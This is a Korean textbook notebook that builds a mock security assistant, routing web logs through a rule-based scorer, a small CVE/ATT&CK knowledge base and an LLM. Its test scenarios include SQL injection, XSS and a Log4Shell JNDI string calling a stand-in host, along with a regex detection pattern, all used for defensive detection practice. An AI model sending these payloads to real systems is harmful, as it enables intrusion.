# Chapter 20 — 보안 Assistant 종합 구현 (Capstone)

## 실습 목표
1. SecurityAssistant 클래스 통합 구현
2. 다양한 시나리오 테스트
3. 모의 라우팅 확인과 실측 평가 항목 설계
4. CLI 패키징
> 이 노트북 앞부분은 규칙 기반 ML과 작은 검색 자료를 쓰는 모의 흐름 실습이다. 운영 성능을 측정하지 않는다. 마지막 절에서는 14장 저장 모델과 18장 영속 컬렉션을 같은 통합 코드로 연결한다.


In [ ]:
# 파트별 노트북은 같은 종류의 공통 데이터·모델 작업 폴더를 사용합니다.
from pathlib import Path as _BookPath
import os as _book_os
_book_cwd = _BookPath.cwd()
if (_book_cwd.name in {"part1", "part2", "part3", "part4"}
        and _book_cwd.parent.name in {"instructor", "exercises", "solutions"}):
    _book_os.chdir(_book_cwd.parent)


In [1]:
# 첫 사용시에만 주석 해제하여 실행 (Colab/venv 환경에 따라 일부는 이미 설치됨)
# !pip install -q anthropic
# !pip install -q chromadb
# !pip install -q sentence-transformers
# !pip install -q pandas
# !pip install -q numpy

In [2]:
import os, json, re, time
import numpy as np
import pandas as pd
import chromadb
from chromadb.utils import embedding_functions
# --- API 키 로드: 환경변수 → 루트 .env → Colab Secrets → getpass (없으면 mock 자동) ---
LLM_MODE = os.environ.get('BOOK_LLM_MODE', 'auto')
if LLM_MODE != 'mock':
    if not os.environ.get('ANTHROPIC_API_KEY'):
        from pathlib import Path as _P
        for _d in [_P.cwd(), *_P.cwd().parents]:
            _e = _d / '.env'
            if _e.exists():
                for _l in _e.read_text(encoding='utf-8').splitlines():
                    if _l.strip().startswith('ANTHROPIC_API_KEY='):
                        os.environ['ANTHROPIC_API_KEY'] = _l.split('=', 1)[1].strip().strip('"').strip("'")
                break
        if not os.environ.get('ANTHROPIC_API_KEY'):
            try:
                from google.colab import userdata
                os.environ['ANTHROPIC_API_KEY'] = userdata.get('ANTHROPIC_API_KEY')
            except Exception:
                pass
        if not os.environ.get('ANTHROPIC_API_KEY'):
            try:  # 대화형(Jupyter/Colab)에서만 입력받는다. Enter 만 치면 mock 으로 진행.
                import getpass
                os.environ['ANTHROPIC_API_KEY'] = getpass.getpass('ANTHROPIC_API_KEY (Enter=mock): ') or ''
            except Exception:
                pass
API_KEY = os.environ.get('ANTHROPIC_API_KEY') if LLM_MODE != 'mock' else None
USE_REAL = bool(API_KEY)
rng = np.random.default_rng(42)

In [3]:
# === 한글 폰트 설정 (matplotlib) ===
# 그래프에서 한글이 깨지면(사각형 □) 아래 설치 명령의 주석을 1회 해제해 실행한 뒤 런타임을 재시작한다.
#   Colab / Ubuntu:  !apt-get install -y fonts-noto-cjk fonts-nanum > /dev/null 2>&1
#   pip 대안       :  !pip install koreanize-matplotlib -q   →   import koreanize_matplotlib
# Windows(맑은 고딕)·macOS(Apple SD Gothic)는 대개 한글 폰트가 기본 설치돼 있어 추가 설치가 필요 없다.
import os
import matplotlib
from matplotlib import font_manager

# OS별로 설치돼 있을 만한 한글 폰트 파일을 모두 등록 시도한다(Noto·나눔·맑은고딕·굴림·Apple 등).
for _fp in [
    # Linux
    '/usr/share/fonts/opentype/noto/NotoSansCJK-Regular.ttc',
    '/usr/share/fonts/truetype/nanum/NanumGothic.ttf',
    '/usr/share/fonts/truetype/nanum/NanumBarunGothic.ttf',
    # Windows
    'C:/Windows/Fonts/malgun.ttf', 'C:/Windows/Fonts/malgunbd.ttf',
    'C:/Windows/Fonts/gulim.ttc', 'C:/Windows/Fonts/batang.ttc',
    # macOS
    '/System/Library/Fonts/AppleSDGothicNeo.ttc',
    '/System/Library/Fonts/Supplemental/AppleGothic.ttf',
    '/Library/Fonts/AppleGothic.ttf',
]:
    if os.path.exists(_fp):
        try:
            font_manager.fontManager.addfont(_fp)
        except Exception:
            pass

# 등록된 폰트 중 사용 가능한 한글 폰트를 우선순위대로 선택한다.
_avail = {f.name for f in font_manager.fontManager.ttflist}
for _name in ['Malgun Gothic', '맑은 고딕', 'NanumGothic', 'Noto Sans CJK KR', 'Noto Sans KR',
              'Apple SD Gothic Neo', 'AppleGothic', 'NanumBarunGothic', 'Gulim', 'Batang',
              'Noto Sans CJK JP']:
    if _name in _avail:
        matplotlib.rcParams['font.family'] = _name
        break
matplotlib.rcParams['axes.unicode_minus'] = False  # 한글 폰트에서 마이너스 기호 깨짐 방지


---
## Step 1. ML 모델·RAG·LLM 컴포넌트 준비

In [4]:
# ML — mock (ch14 의 RandomForest 자리에 룰 기반)
def ml_score(log: dict) -> float:
    url, ua = log.get('url',''), log.get('ua','')
    if re.search(r'union|select|or\s+1=1|<script>|jndi:|\.\./', url, re.I): return 0.95
    if re.search(r'sqlmap|nikto', ua, re.I):                                 return 0.85
    if log.get('status') == 401 and 'login' in url:                          return 0.55
    return 0.05

# RAG — ch18 의 mock KB 재사용
ef = embedding_functions.SentenceTransformerEmbeddingFunction(model_name='all-MiniLM-L6-v2')
client_chroma = chromadb.Client()
col = client_chroma.get_or_create_collection('security_kb_demo', embedding_function=ef)
if col.count() == 0:
    kb = [
        ('CVE-2021-44228','Log4Shell JNDI Injection RCE',{'cvss':10}),
        ('CVE-2023-34362','MOVEit SQL Injection 0-day',{'cvss':9.8}),
        ('T1190','Exploit Public-Facing Application',{}),
        ('T1110','Brute Force - guess passwords',{}),
        ('T1078','Valid Accounts - abuse credentials',{}),
        ('A03:2021','Injection - SQL/NoSQL/OS/LDAP',{}),
        ('A07:2021','Identification and Authentication Failures',{}),
    ]
    col.add(documents=[f'{i} {d}' for i,d,_ in kb], ids=[i for i,_,_ in kb],
            metadatas=[m|{'id':i} for i,_,m in kb])

# LLM
if USE_REAL:
    import anthropic
    llm = anthropic.Anthropic(api_key=API_KEY, max_retries=0)

else:
    from types import SimpleNamespace
    class MockLLM:
        def __init__(self):
            self.messages = self
        def create(self, **kwargs):
            payload = json.loads(kwargs['messages'][0]['content'])
            analysis = {'verdict': 'UNKNOWN', 'severity': None,
                        'summary': '모의 응답: 추가 로그 검토 필요',
                        'citations': [payload['sources'][0]['id']]}
            return SimpleNamespace(stop_reason='end_turn', content=[SimpleNamespace(type='text', text=json.dumps(analysis))])
    llm = MockLLM()

print(f'ML=규칙 기반 모의 / RAG 문서={col.count()} / LLM={"real" if USE_REAL else "mock"}')

<project>/.venv/lib/python3.10/site-packages/tqdm/auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Loading weights:   0%|          | 0/103 [00:00<?, ?it/s]

Loading weights: 100%|██████████| 103/103 [00:00<00:00, 10234.86it/s]

ML=규칙 기반 모의 / RAG 문서=7 / LLM=mock


---
## Step 2. SecurityAssistant 통합 클래스

In [5]:
# 배포 저장소를 내려받은 후 그 안에서 실행한다. 노트북과 CLI는 같은 구현을 쓴다.
from pathlib import Path
import sys
# 배포 저장소에서는 루트에, 원고 저장소에서는 src/ 에 있습니다.
found = next((p / sub for p in [Path.cwd(), *Path.cwd().parents] for sub in ('', 'src')
              if (p / sub / 'security_assistant.py').is_file()), None)
if found is None:
    raise FileNotFoundError('배포 저장소의 security_assistant.py와 함께 실행한다.')
sys.path.insert(0, str(found))
from security_assistant import SecurityAssistant

---
## Step 3. 시나리오 테스트

In [6]:
scenarios = [
    {'src':'10.0.0.5','method':'GET','url':'/index.html','ua':'Mozilla/5.0','status':200},
    {'src':'1.2.3.4','method':'POST','url':"/login?id=' OR 1=1--",'ua':'sqlmap/1.5','status':401},
    {'src':'5.6.7.8','method':'GET','url':'/login','ua':'Mozilla/5.0','status':401},
    {'src':'9.10.11.12','method':'POST','url':'/api/${jndi:ldap://evil.com}','ua':'curl','status':500},
    {'src':'15.16.17.18','method':'GET','url':'/?q=<script>alert(1)</script>','ua':'Mozilla','status':200},
]
assistant = SecurityAssistant(None, score_fn=ml_score, kb=col, llm=llm, dry_run=True)
for sc in scenarios:
    sc['redacted_summary'] = f"교육용 요청: {sc['method']} {sc['url']} / 상태 {sc['status']}"
route_log = []
results = []
for sc in scenarios:
    print(f'\n=== {sc["url"][:50]} ===')
    r = assistant.analyze(sc)
    results.append(r)
    route_log.append(r['route'])
    ml = r.get('ml')
    print(f"route={r['route']}, ml={'-' if ml is None else format(ml, '.2f')}", end='')
    if 'analysis' in r: print(f", sev={r['analysis'].get('severity')}, src={r.get('sources')}")
    else: print()


=== /index.html ===
route=pass, ml=0.05

=== /login?id=' OR 1=1-- ===
route=playbook, ml=0.95

=== /login ===
route=review, ml=0.55, sev=None, src=['T1110', 'A07:2021', 'T1078']

=== /api/${jndi:ldap://evil.com} ===
route=playbook, ml=0.95

=== /?q=<script>alert(1)</script> ===
route=playbook, ml=0.95




In [7]:
# 라우팅(3-tier) 분포 시각화
import matplotlib.pyplot as plt
from collections import Counter
rc = Counter(route_log)
fig, ax = plt.subplots(figsize=(6, 3.5))
ax.bar(list(rc.keys()), list(rc.values()), color='#0984e3')
ax.set_title('SecurityAssistant 라우팅(3-tier) 분포')
ax.set_xlabel('경로(route)'); ax.set_ylabel('건수')
plt.tight_layout(); plt.show()

---
## Step 4. 종합 평가 (정확도·응답·비용)

In [8]:
# 소수 시나리오로 라우팅과 실패 상태만 확인한다. 정확도 벤치마크가 아니다.
from collections import Counter
counts = Counter()
for log in scenarios:
    result = results[scenarios.index(log)]
    counts[(result['route'], result.get('verdict', 'UNKNOWN'))] += 1
print('모의 시나리오 경로/판정:', dict(counts))
print('운영 정확도·비용·지연은 별도 보류 데이터로 평가해야 한다.')


모의 시나리오 경로/판정: {('pass', 'BENIGN'): 1, ('playbook', 'ATTACK'): 3, ('review', 'UNKNOWN'): 1}
운영 정확도·비용·지연은 별도 보류 데이터로 평가해야 한다.


---
## Step 5. CLI 패키징 (참고용)

In [9]:
print('실제 통합 CLI: 프로젝트 루트에서 python scripts/security_assistant_cli.py --log alert.json')

실제 통합 CLI: 프로젝트 루트에서 python scripts/security_assistant_cli.py --log alert.json


---
## 정리 — 이 책 전체 회고

- Part I: 네트워크·위협 기초 + Wireshark·Scapy 실습
- Part II: 데이터 분석 방법론 + 전처리 + 비지도 이상 탐지
- Part III: 로그·SIEM + 지도학습 + NLP + 정오탐 개선
- Part IV: LLM·RAG·Agent + capstone 통합 시스템

이제 본인 운영 환경의 트래픽으로 첫 프로젝트를 시작할 수 있다.

## 실제 저장 모델 연결

같은 작업 폴더에서 14장과 18장 노트북을 먼저 실행한다. 14장은 모델과 연결 확인용 보류 표본을,
18장은 `data/chroma`의 `security_kb` 컬렉션을 저장한다. 다음 셀은 점수 함수를 주입하지 않고
실제 저장 모델을 다시 읽는다. API 키가 있으면 실제 LLM을 호출하며 사용료가 발생한다.
키가 없으면 LLM만 모의 응답을 사용하고 출력에 구분한다. 대응은 항상 모의 실행이다.

다른 폴더에서 실행했다면 `artifact_dir`을 앞 장의 작업 폴더로 바꾼다. 파일이 없으면
준비 절차를 안내하며, 이 경우에는 장간 연결 검증을 통과한 것으로 보지 않는다.

In [10]:
from pathlib import Path
import hashlib
artifact_dir = Path.cwd()
model_path = artifact_dir / 'models/nsl_kdd_rf.pickle'
holdout_path = artifact_dir / 'models/nsl_kdd_holdout.json'
chroma_path = artifact_dir / 'data/chroma'
if not model_path.exists() or not holdout_path.exists() or not (chroma_path / 'chroma.sqlite3').exists():
    print('연결 검증 미실행: 같은 폴더에서 14장 모델 저장과 18장 색인을 먼저 실행한다.')
else:
    integrated = SecurityAssistant(model_path, str(chroma_path), llm=llm, dry_run=True)
    print('모델 SHA256:', hashlib.sha256(model_path.read_bytes()).hexdigest())
    print('영속 컬렉션:', integrated.kb.name, '/ 문서:', integrated.kb.count())
    print('LLM:', '실제 API' if USE_REAL else '모의 응답')
    for sample in json.loads(holdout_path.read_text(encoding='utf-8')):
        log = {'src': '192.0.2.20', 'features': sample['features'],
               'redacted_summary': 'Repeated failed authentication on a public login service'}
        result = integrated.analyze(log)
        print(json.dumps({'expected_ml_route': sample['expected_route'], **result}, ensure_ascii=False))
        assert 'error' not in result, '장간 연결 실패: 출력의 error를 확인한다.'
        expected = sample['expected_route']
        assert result['route'] in ({'llm_agent', 'review'} if expected == 'llm_agent' else {expected})


모델 SHA256: f95db7cbd89f1bd8f45fa0c7a7c0ad291dc61ebd72afa39785dc59cd6997f729
영속 컬렉션: security_kb / 문서: 15
LLM: 모의 응답
{"expected_ml_route": "pass", "route": "pass", "ml": 0.0407942871976228, "verdict": "BENIGN"}
{"expected_ml_route": "llm_agent", "route": "review", "ml": 0.8989793981413762, "verdict": "UNKNOWN", "analysis": {"verdict": "UNKNOWN", "severity": null, "summary": "모의 응답: 추가 로그 검토 필요", "citations": ["A07:2021"]}, "sources": ["A07:2021", "T1566", "A05:2021"], "actions": []}
{"expected_ml_route": "playbook", "route": "playbook", "ml": 0.9355656475184952, "verdict": "ATTACK", "actions": [{"status": "simulated", "ip": "192.0.2.20", "ttl_seconds": 300}]}
